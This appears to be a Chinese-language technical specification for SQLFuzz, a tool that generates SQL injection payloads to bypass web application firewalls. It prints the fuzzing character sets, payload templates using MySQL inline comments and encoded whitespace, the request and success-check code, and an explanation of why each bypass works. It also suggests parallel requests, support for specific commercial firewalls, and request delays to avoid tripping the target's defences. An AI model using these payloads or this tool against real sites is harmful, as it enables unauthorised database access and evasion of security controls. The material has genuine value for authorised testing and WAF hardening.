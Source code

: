 # SQLFuzz 技术规范

本文档详细介绍 SQLFuzz 工具的技术原理、设计思路和实现细节。

## 核心原理

SQLFuzz 通过组合各种特殊字符和编码字符，生成大量不同的 SQL 注入 payload，利用 SQL 语法的灵活性和 WAF 规则的缺陷，尝试绕过各种 Web 应用防火墙的防护机制。

## 字符集设计

工具使用三类特殊字符集：

### 1. 特殊语法字符 (fuzz_zs)

```python
fuzz_zs = ['/*','*/','/*!','/**/','?','/','*','=','`','!','%','_','-','+']
```

这些字符主要包括：
- SQL 注释标记：`/*`, `*/`, `/*!`, `/**/` 
- SQL 特殊运算符：`=`, `!`, `%`, `_`, `-`, `+`
- 其他特殊字符：`?`, `/`, `*`, `\``

### 2. 空白字符编码 (fuzz_ch)

```python
fuzz_ch = ["%09","%0a","%0b","%0c","%0d","%20","%a0"]
```

这些是各种空白字符的 URL 编码：
- `%09`: 水平制表符 (HT)
- `%0a`: 换行符 (LF)
- `%0b`: 垂直制表符 (VT)
- `%0c`: 换页符 (FF)
- `%0d`: 回车符 (CR)
- `%20`: 空格
- `%a0`: 不间断空格 (NBSP)

### 3. 其他字符 (fuzz_sz)

```python
fuzz_sz = ['']
```

目前为空字符，可以根据需要扩展添加其他特殊字符。

## 组合算法

SQLFuzz 使用嵌套循环创建字符组合，默认使用三层嵌套：

```python
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            payload = "'/**//*!*/and/*!*/"+a+b+c+"/**/'1'='1"
```

组合总数计算公式：`len(fuzz)^n`，其中 n 是嵌套层数。例如，使用默认配置时：
- 字符总数：`len(fuzz) = len(fuzz_zs) + len(fuzz_ch) + len(fuzz_sz) = 14 + 7 + 1 = 22`
- 三层嵌套组合总数：`22^3 = 10,648` 种不同组合

## Payload 模板设计

SQLFuzz 使用预定义的 payload 模板，将生成的字符组合插入模板中：

```python
# 示例 1：AND 条件注入
payload = "'/**//*!*/and/*!*/"+a+b+c+"/**/'1'='1"

# 示例 2：UNION SELECT 注入
payload = "'/*!union"+a+b+c+"select*/1,2#"

# 示例 3：ORDER BY 注入
payload = "'/**//*!*/AND/*!*/"+a+b+c+"/**/order/**/by/**/1--+"
```

这些模板利用了 SQL 语法的灵活性和注释处理机制，特别是 MySQL 特有的 `/*!...*/` 内联注释语法（这种注释中的内容会被 MySQL 执行）。

## 请求处理与结果分析

1. **请求构造**：
   ```python
   url = url_start + payload+"&Submit=Submit#"
   res = requests.get(url = url, headers = headers)
   ```

2. **响应分析**：
   ```python
   if "First name: admin" in res.text:
       print("\033[0;33m[*]Find BypassWAF Payload:\033[0m"+url)         
       with open ("Results.txt",'a') as r:
           r.write(url+"\n")
   ```

3. **进度显示**：
   ```python
   sys.stdout.write(' '*30 +'\r')
   sys.stdout.flush()
   print("Now URL:"+url)
   sys.stdout.write("完成进度:%s/%s \r" %(num,len))
   sys.stdout.flush()
   ```

## WAF 绕过原理

SQLFuzz 利用以下技术绕过 WAF：

1. **注释混淆**：使用 `/**/`, `/*!*/` 等注释标记打断关键词，使 WAF 无法正确识别。

2. **空白字符变种**：使用各种不同的空白字符编码（如 `%09`, `%0a`, `%20` 等）替代普通空格，绕过基于空格识别的规则。

3. **特殊字符插入**：在关键词中插入特殊字符，打断 WAF 的规则匹配。

4. **内联注释执行**：利用 MySQL 的 `/*!...*/` 语法，让注释中的内容被数据库执行但被 WAF 当作注释忽略。

## 性能优化

当前版本使用三层嵌套，生成约 10,000 种组合。增加嵌套层数会指数级增加组合数：

- 四层嵌套：`22^4 ≈ 234,256` 种组合
- 五层嵌套：`22^5 ≈ 5,153,632` 种组合

为了提高效率，可以考虑的优化方式：

1. **并行请求**：使用多线程或异步请求并行测试多个 payload。

2. **智能组合**：基于历史成功率，优先测试更可能成功的字符组合。

3. **增量测试**：先测试简单组合，根据反馈逐步增加复杂度。

## 扩展方向

1. **更多的 WAF 类型支持**：针对不同的 WAF（如安全狗、宝塔、云锁等）定制不同的 payload 模板。

2. **自动响应分析**：自动学习成功响应的特征，无需手动指定成功标志。

3. **图形化界面**：开发 GUI 界面，方便配置和查看结果。

4. **更多注入类型**：扩展支持盲注、时间盲注、报错注入等多种注入类型。

## 技术限制

1. **请求量大**：默认配置下需要发送上万个请求，可能触发目标站点的限流或封禁。

2. **特定环境假设**：当前成功判断逻辑假设目标是特定类型的应用（如 DVWA），对其他应用需要调整。

3. **误报可能**：部分成功 payload 可能是由于其他原因导致的假阳性结果。

## 最佳实践建议

1. **递进测试**：先使用简单组合，确认存在 SQL 注入漏洞后再进行复杂的 WAF 绕过测试。

2. **限制请求频率**：添加请求延迟，避免触发目标站点的防护机制。

3. **精简字符集**：根据目标 WAF 特性，精简测试字符集，提高效率。

4. **持续更新**：根据测试结果和新发现的绕过技术，持续更新 payload 模板和字符集。 